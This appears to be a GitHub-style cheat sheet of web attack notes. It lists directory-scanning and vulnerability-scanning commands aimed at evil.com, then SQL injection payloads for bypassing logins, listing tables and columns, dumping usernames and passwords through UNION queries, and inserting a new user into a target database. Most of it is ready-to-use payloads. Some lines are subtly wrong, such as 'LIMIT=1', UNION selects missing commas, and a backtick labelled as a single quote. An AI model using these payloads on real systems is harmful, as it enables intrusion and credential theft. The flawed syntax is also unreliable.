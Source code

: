 ## Enumerate
```bash
dirb evil.com -r -z10 # recursive; wait 10 milliseconds between delays

python3 dirsearch/dirsearch.py -u evil.com --simple-report demo-webcrawl.txt

nikto -h evil.com -Format txt -o demo-vulnscan-web.txt
```

SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS 
```

## Exploit
Comments
```
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Database Query Examples
```sql
USE victimdb;
SELECT * FROM users;
```

SQL Injection Examples
```
# bypass auth (put in the username field)
victor' or 1=1; -- 

# bypass auth (put in the username field; the LIMIT keyword might be necessary for some databases)
victor' or 1=1 LIMIT=1; -- 

' ORDER BY 1 # sort results based on the values of the first column

' UNION ALL SELECT 1,2,3 # return all rows 
' UNION ALL SELECT 1,2 @@version # return the database version
' UNION ALL SELECT 1,2 user() # return the acct running the database

# return all table names
' UNION ALL SELECT 1,2 table_name FROM information_schema.tables 

# return all column names
' UNION ALL SELECT 1,2 column_name FROM information_schema.columns WHERE table_name = 'users' 

# return records from users table; put users in column 2, password in column 3 of output
' UNION ALL SELECT 1, username, password FROM users 
```

## Explore
```sql
SELECT * FROM target.users # database.table
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO target.users(username, password) VALUES ('victor','please');
```
